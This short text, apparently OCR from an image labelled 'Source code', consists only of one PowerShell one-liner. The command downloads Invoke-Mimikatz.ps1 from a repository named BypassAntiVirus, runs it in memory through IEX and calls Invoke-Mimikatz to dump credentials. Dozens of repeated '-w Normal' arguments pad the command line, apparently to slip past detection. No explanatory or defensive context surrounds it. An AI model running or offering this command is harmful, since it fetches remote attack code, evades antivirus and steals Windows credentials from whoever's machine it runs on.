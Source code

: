 	>powershell.exe -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
 